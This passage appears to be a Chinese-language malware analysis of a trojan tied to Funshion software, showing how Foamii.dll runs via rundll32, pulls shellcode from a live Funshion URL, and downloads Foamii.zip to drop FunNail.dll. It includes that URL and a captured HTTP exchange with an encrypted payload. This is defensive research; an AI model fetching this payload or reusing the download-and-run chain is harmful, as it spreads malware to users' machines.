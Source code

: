 ![](http://drops.javaweb.org/uploads/images/cc7bbf3494e9c0359ca15d2ac5d71f1a3759b0b0.jpg)

行为详解：
-----

木马首先调用WinExec函数启动rundll32.exe作为宿主进程，调用Foamii.dll的startup函数

![](http://drops.javaweb.org/uploads/images/96237fe2d440e6a6f72b4a2d91206f28349ded12.jpg)

运行后，dll会从服务器读取在线shellcode代码到本地

![](http://drops.javaweb.org/uploads/images/aa636c4525a725405adf9a1c0960db7e89d48cae.jpg)

shellcode的远端地址竟然就堂而皇之的挂在风行官网上：`http://fld.funshion.com/instant/instant?bid=52`用浏览器打开该URL内容如下：

![](http://drops.javaweb.org/uploads/images/37836f504f8c60a080eccf5df0802387e6da11d9.jpg)

数据报文如下图：

```
GET /instant/instant?bid=52 HTTP/1.1
Cache-Control: max-age=43200
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1) Funshion/1.0.0.1
Host: fld.funshion.com
Connection: Keep-Alive


HTTP/1.1 200 OK
Server: nginx/1.2.0
Date: Wed, 23 Sep 2015 07:12:02 GMT
Content-Type: text/html; charset=utf-8
Transfer-Encoding: chunked
Connection: close
Vary: Accept-Encoding

184
..TKDS…..$..e..1..}…_/…6………..d..`CG..W…S…..V……=-…..\.Gd4..*..a}…X.#..Y…}R …o\W.]I.M.Jw…%.Lm.l._..Zq..n1.X[+F.+….~…c.J…~.]./..’d2…….z.c(.{.(.n..%..8=.3`.`.W…!….E..1.j.U….[..
#……T&…/……!<.iDEKOY@….=yH.i.MV…..i…..A…..e.._g.YL`…..,5]R..`……&
Y….(e….@.J.%.O.T.l..U+…….5..6.]..a{`.? .IEX….<xx…..-…k…}…I..\
0

```

而加载shellcode后，代码会向服务器发起访问，返回信息则是一个json串：

![](http://drops.javaweb.org/uploads/images/15f95350bd13876f2e5bf960d72e21d908631924.jpg)

显然，json串中又为shellcode指明了一个新的下载地址，下载回来的则是一个名为Foamii.zip的压缩文件

![](http://drops.javaweb.org/uploads/images/bae5b2bd574f13e33285d0a67e7279559d6251a1.jpg)

当Foamii.dll将Foamii.zip下载回来之后，将其解压，并进一步释放了一个名为FunNail.dll的程序
